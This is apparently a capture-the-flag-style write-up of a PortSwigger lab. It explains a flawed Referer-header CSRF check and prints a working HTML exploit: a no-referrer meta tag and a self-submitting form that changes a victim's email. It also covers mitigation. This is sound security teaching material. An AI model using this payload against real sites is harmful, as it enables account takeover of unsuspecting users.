


# PortSwigger Lab: CSRF where Referer validation depends on header being present

## Lab Description
- **Platform:** PortSwigger Web Security Academy
- **Difficulty:** Practitioner
- **Objective:** Craft an HTML page that uses a CSRF attack to change the viewer's email address and upload it to the exploit server.

## Vulnerability Analysis
The application attempts to mitigate CSRF attacks by validating the `Referer` HTTP header, ensuring requests originate from the same domain. However, the validation logic is flawed: it only checks the `Referer` header if it is present. If the header is omitted entirely, the server assumes the request is safe and processes it.

The attacker can exploit this insecure fallback by forcing the victim's browser to send a cross-site request while suppressing the `Referer` header.

## Exploitation Steps
1. Logged in to the application using the provided credentials (`wiener:peter`).
2. Navigated to the Exploit Server to craft the malicious HTML page.
3. The exploit uses a `<meta>` tag to instruct the browser not to send the `Referer` header. It also contains a standard form targeting the vulnerable endpoint:
   ```html
   <meta name="referrer" content="no-referrer">
   <form id="csrf" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
       <input type="hidden" name="email" value="hacked@web-security-academy.net">
   </form>
   <script>
       document.getElementById('csrf').submit();
   </script>
   ```
4. Stored the exploit and delivered it to the victim. The victim's browser submitted the form without the `Referer` header.
5. Because the header was missing, the server's validation logic was bypassed, and the email was changed.

## Evidence

### Exploit Code


### Lab Solved


## Mitigation
To securely prevent CSRF using `Referer` validation, the application must use a "fail-closed" approach (deny by default).
1. **Strict Validation:** The application must require the `Referer` header to be present and explicitly verify that it matches the expected domain. If the header is missing, the request must be rejected.
2. **CSRF Tokens:** Relying solely on `Referer` validation is generally discouraged because proxies, privacy tools, and browser policies can strip the header. CSRF tokens remain the most robust defense.